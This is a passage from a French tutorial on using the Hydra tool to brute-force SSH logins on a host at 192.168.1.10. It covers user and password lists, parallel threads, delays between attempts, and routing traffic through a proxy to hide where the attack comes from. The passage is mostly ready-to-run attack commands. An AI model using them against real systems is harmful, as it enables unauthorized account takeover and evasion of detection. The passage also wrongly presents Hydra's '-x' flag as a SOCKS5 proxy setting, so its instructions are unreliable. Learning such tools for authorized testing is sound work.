 ***

#### 4. Tester plusieurs utilisateurs et mots de passe

*   **Commande** :

    ```bash
    hydra -L /path/to/users.txt -P /path/to/passwords.txt ssh://192.168.1.10
    ```
* **Explication** :
  * `-L` : Fichier contenant une liste de noms d'utilisateur.
  * `-P` : Fichier contenant une liste de mots de passe.

***

### 🔍 Étape 3 : Options Avancées

***

#### 1. Utiliser des threads pour accélérer l’attaque

*   **Commande** :

    ```bash
    hydra -l admin -P /path/to/passwords.txt -t 4 ssh://192.168.1.10
    ```
* **Explication** :
  * `-t 4` : Lance quatre threads en parallèle pour augmenter la vitesse (64 maximum).

***

#### 2. Ajouter des délais entre les tentatives

*   **Commande** :

    ```bash
    hydra -l admin -P /path/to/passwords.txt -w 5 ssh://192.168.1.10
    ```
* **Explication** :
  * `-w 5` : Définit un délai de 5 secondes entre chaque tentative pour limiter la charge sur le serveur cible.

***

#### 3. Utiliser un proxy pour masquer l'origine

*   **Commande** :

    ```bash
    hydra -l admin -P /path/to/passwords.txt -x socks5://proxyserver:1080 ssh://192.168.1.10
    ```
* **Explication** :
  * `-x` : Définit un proxy SOCKS5 pour acheminer les requêtes via un autre serveur.

***
